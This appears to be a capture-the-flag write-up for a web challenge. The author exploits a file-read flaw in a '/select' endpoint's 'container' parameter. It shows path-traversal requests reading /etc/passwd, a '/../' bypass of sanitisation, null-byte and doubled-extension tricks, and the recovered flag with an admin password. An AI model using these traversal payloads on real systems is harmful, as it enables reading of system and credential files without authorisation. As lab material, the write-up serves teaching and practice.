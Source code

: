 # About
"This is the story of how I defined your schema."
The flag is in secrets.txt

# Solve
Based on this and the URLs when making searches, I knew that I would be looking for some sort of LFI to read the flag.
`/select?record=*&container=employees`

![](Images/Pasted%20image%2020250427094326.png)

Which I was able to get working with the following.

```
/select?record=*&container=/etc/passwd
```

Now we just have to get secrets to read.
```
/select?record=*&container=../secrets.txt
```

The above query returned invalid for two reasons, one because the application is doing some form of sanitization for relative paths `../` but could be bypassed with `/../` and issues with the removal of the .txt extension when trying to read the file.

I was able to crash the application to leak more information to confirm some of this with the following search parameters.
```
/select?record=*&container/asd
```

![](Images/Pasted%20image%2020250428111241.png)

After testing some various ways of bypassing the file read I was able to determine a way to get any file type to read.
```
.[EXT].%00
.[EXT].[EXT]
/select?record=*&container=/../../../../app/app.py.py
```

Knowing that I can parse the secrets.txt flag by testing in various directories for the file.
```
/select?record=*&container=/../../../../app/secrets.txt.%00
```

![](Images/Pasted%20image%2020250427130837.png)

```
CIT{235da65aa6444e27} admin:9f3IC3uj9^zZ
```